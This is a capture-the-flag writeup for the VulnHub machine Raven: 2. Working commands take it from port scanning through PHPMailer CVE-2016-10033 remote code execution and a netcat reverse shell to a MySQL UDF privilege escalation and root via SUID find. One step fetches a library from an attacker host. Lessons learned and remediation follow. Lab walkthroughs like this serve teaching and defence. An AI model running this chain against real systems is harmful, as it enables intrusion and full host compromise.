


# Raven: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | flag1 (PATH), flag2 (/var/www), flag3 (wp-content/uploads), flag4 (/root) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/raven-2,269/) |

## Attack Summary

nmap → dirb → /vendor/PATH + VERSION (PHPMailer 5.2.16 RCE CVE-2016-10033) → PHP reverse shell → flags 1-3 → wp-config.php (R@v3nSecurity) → MySQL UDF 1518 privesc → SUID find → root + flag4

## Methodology

1. Network discovery and port scan
2. Enumerate web directories, discover /vendor
3. Exploit PHPMailer RCE via contact.php
4. Enumerate WordPress config for MySQL credentials
5. Load MySQL UDF, set SUID on /usr/bin/find
6. find -exec to get root shell

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports: **22** (SSH), **80** (HTTP — WordPress), **111** (rpcbind).


---

## Step 2: Enumerate Web — Find /vendor

```bash
dirb http://192.168.1.101/
```

Found: `http://192.168.1.101/vendor/`

Open `/vendor/PATH` → **flag1**

Open `/vendor/VERSION` → `5.2.16` (PHPMailer 5.2.16, vulnerable to CVE-2016-10033)

---

## Step 3: PHPMailer RCE → Shell

PHPMailer 5.2.16 is vulnerable to remote code execution via the `From:` header injection. Use the public PoC:

```bash
# Edit the exploit script:
# - Set target to: http://192.168.1.101/contact.php
# - Set backdoor name: backdoor.php
# - Set LHOST and upload location
python exploit_phpmailer.py
```

Start the listener:

```bash
nc -lvnp 4444
```

Visit the backdoor URL in the browser to trigger the reverse shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# uid=33(www-data)
```


---

## Step 4: Collect Flags 2 and 3, Extract DB Credentials

```bash
cat /var/www/flag2.txt
# flag2 captured

cat /var/www/html/wordpress/wp-config.php | grep -E "DB_USER|DB_PASS|DB_NAME"
# DB_USER: root
# DB_PASS: R@v3nSecurity
# DB_NAME: wordpress

# flag3 is in /var/www/html/wp-content/uploads/2018/11 (PNG file)
ls /var/www/html/wp-content/uploads/2018/11/
cp flag3.png /var/www/html/
# then view at http://192.168.1.101/flag3.png
```


---

## Step 5: MySQL UDF Privilege Escalation

```bash
# On attacker — fetch and compile the UDF library:
searchsploit -m 1518.c
gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc
python3 -m http.server 8000

# On target (www-data shell):
cd /tmp
wget http://<ATTACKER_IP>:8000/1518.so
chmod 777 1518.so

mysql -u root -pR@v3nSecurity
```

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/find');
```

```bash
exit
```



---

## Step 6: SUID find → Root Shell

```bash
cd /tmp
touch raj
find raj -exec "whoami" \;
# root
find raj -exec "/bin/sh" \;
id
# uid=0(root)
cd /root
cat flag4.txt
```



---

## Lessons Learned

1. **PHPMailer 5.2.16** (CVE-2016-10033) is a critical unpatched RCE — always update mail libraries
2. **WordPress /vendor** directory often exposes library versions and even flags if not restricted
3. **MySQL running as root** with world-accessible credentials enables UDF loading for full system compromise
4. **UDF library loading** (`load_file` + `dumpfile`) into the plugin directory is a classic MySQL root privesc
5. **SUID find** allows executing arbitrary commands as root via `-exec`

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| PHPMailer 5.2.16 (CVE-2016-10033) | Update to 5.2.21+ immediately |
| /vendor exposed on web root | Restrict or block vendor directory via .htaccess / nginx config |
| MySQL root with default password | Use strong unique password; run MySQL as non-root service user |
| MySQL `load_file` / `dumpfile` enabled | Set `secure_file_priv` to restrict load/dump paths |
| SUID set on /usr/bin/find | Remove SUID from find: `chmod u-s /usr/bin/find` |
